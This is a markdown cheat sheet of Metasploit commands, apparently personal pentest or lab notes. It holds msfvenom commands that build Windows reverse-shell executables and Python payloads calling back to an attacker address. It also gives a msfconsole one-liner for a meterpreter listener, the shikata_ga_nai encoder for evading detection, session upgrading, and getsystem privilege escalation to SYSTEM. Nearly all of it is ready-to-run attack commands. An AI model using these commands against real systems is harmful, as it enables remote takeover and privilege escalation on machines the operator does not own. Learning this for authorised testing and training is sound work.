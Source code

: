 # Metasploit commands

## Basics

basic msvenom reverse-shell payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=${PORT} -f exe -o shell
```

One-liner for setting up a listener
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 6666; run"

```
## encoding

To see encoders available to you, use `msvenom -l encoders`.

Then, you can something like `-e x86/shikata_ga_nai` when creating the payload.

## Session handling

upgrade recent session to meterpreter session: `sessions -u -1`

## controling the output of msfvenom

A lot of the time, we are looking for a file as the payload. eg:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -o shell.py
```

However, if we want to assign the shell to a variable in a script, we can also do that with `-v nameOfVar`, such as:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -v sh
```
which will give us a variable `sh` with the payload as hex. 

## Windows Priv Esc

Using a meterpreter session of from payloads `windows/x64/shell_reverse_tcp` or `windows/shell/reverse_tcp`, you can do this script-kiddie move to privilege escalate:

```
meterpreter > use priv
```
(this might just say `[!] The "priv" extension has already been loaded.`)
```
getsystem
```
and meterpreter will do it's best to get you `NT AUTHORITY\SYSTEM`

